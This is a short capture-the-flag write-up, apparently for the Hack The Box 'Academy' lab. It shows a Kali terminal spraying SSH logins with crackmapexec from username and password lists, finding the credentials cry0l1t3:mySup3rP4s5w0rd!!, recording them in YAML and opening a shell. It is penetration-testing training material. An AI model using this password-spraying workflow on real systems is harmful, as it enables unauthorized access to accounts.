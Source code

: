 ```
┌──(nabla㉿kali)-[~]
└─$ vim htb_academy_users.txt

root
egre55
mrb3n
cry0l1t3
21y4d
ch4p
g0blin
```

```
┌──(nabla㉿kali)-[~]
└─$ vim htb_academy_passwords.txt

mySup3rP4s5w0rd!!
secret
```

```
┌──(nabla㉿kali)-[~]
└─$ crackmapexec ssh academy.htb -u htb_academy_users.txt -p htb_academy_passwords.txt --continue-on-success

[SNIP]

SSH         10.10.10.215    22     academy.htb      [+] cry0l1t3:mySup3rP4s5w0rd!!  Linux - Shell access!
```

```yaml
credentials:
    username: cry0l1t3
    password: "mySup3rP4s5w0rd!!"
    protocol: ssh
    host: academy.htb
    port: 22
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh cry0l1t3@academy.htb

cry0l1t3@academy.htb's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

[SNIP]

$ bash

cry0l1t3@academy:~$ 
```
